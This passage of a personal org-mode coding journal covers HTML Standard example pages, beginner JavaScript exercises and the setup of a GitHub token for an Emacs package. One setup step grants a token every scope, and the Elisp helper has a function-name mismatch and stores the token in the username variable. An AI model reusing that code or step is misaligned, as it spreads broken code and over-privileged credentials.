        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
2. Within that directory, create a new file named index.html.
